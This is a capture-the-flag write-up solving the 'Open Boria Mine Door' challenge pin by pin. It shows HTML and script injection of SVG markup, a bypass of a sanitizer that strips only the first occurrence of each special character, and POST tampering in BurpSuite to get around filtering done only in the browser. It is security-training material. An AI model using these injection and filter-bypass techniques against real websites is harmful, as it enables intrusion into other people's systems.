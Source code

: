```yaml
---
sidebar_position: 5
---
```


# Open Boria Mine Door

> Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.

****

# Open Boria Mine Doors

## Pin 1

Inspecting the HTML source code we see a commented out line containing the keyword to unlock Pin 1. Simply copy and paste the value and you're good to go.

```html
<!-- @&@&&W&&W&&&& -->
```

## Pin 2

The general theme is to inspect the HTML source to find hints to solve the various pins. For Pin 2 we see a todo note to filter out HTML from user input. 

```html
<!-- TODO: FILTER OUT HTML FROM USER INPUT -->
```

The assignment seems to be to draw lines between various connecting dots. The best way to do that is to simply draw a line using the SVG HTML tag, like this: 

```
<svg height="170" width="200">
  <path d="M0 73 298 194" stroke-width="10" stroke="white"/>2
</svg>
```

## Pin 3

Advancing on, we find a hint regarding Javascript in the HTML source

```
<!-- TODO: FILTER OUT JAVASCRIPT FROM USER INPUT -->
```

Simply outputting the SVG tag using Javascript:


```
<script>
document.write('
<svg height="170" width="200">
  <path d="M0 95 280 1" stroke-width="10" stroke="blue"/>2
</svg>
');
</script>
```

## Pin 4

For this pin there are no commented out hints, but we find a sanitation script present which simply replaces the first occurrences of each special char;

```
<script>
    const sanitizeInput = () => {
        const input = document.querySelector('.inputTxt');
        const content = input.value;
        input.value = content
            .replace(/"/, '')
            .replace(/'/, '')
            .replace(/</, '')
            .replace(/>/, '');
    }
</script>
```

Padding the input with <\> simply unlocked the pin:

```
<>
<svg height="170" width="200">
  <path d="M0 40 280 40" stroke-width="10" stroke="white"/>2
  <path d="M0 130 280 130" stroke-width="10" stroke="blue"/>2
</svg>
```

## Pin 5

The script from last pin has been extended to now filtrate out every occurrences.

```
<script>
        const sanitizeInput = () => {
            const input = document.querySelector('.inputTxt');
            const content = input.value;
            input.value = content
                .replace(/"/gi, '')
                .replace(/'/gi, '')
                .replace(/</gi, '')
                .replace(/>/gi, '');
        }
</script>
```

However, this happens only on client side. If we pass the POST request through BurpSuite proxy we can insert our trusty SVG tag:

```html
inputTxt=<script>document.write('<svg height="170" width="200"><path d="M35 170 210 90" stroke-width="10" stroke="blue"/><path d="M0 135 210 40" stroke-width="10" stroke="red"/></svg>');</script>
```

## Pin 6

No hint available here - but we are still in BurpSuite land manipulating the POST request directly:

```html
inputTxt=<svg height="170" width="200"><path d="M0 35 210 35" stroke-width="10" stroke="lime"/><path d="M0 75 240 115" stroke-width="10" stroke="red"/><path d="M0 115 150 170" stroke-width="10" stroke="blue"/></svg>
```

## All pins unlocked

![All pins solved](/img/web-ring/pins.png)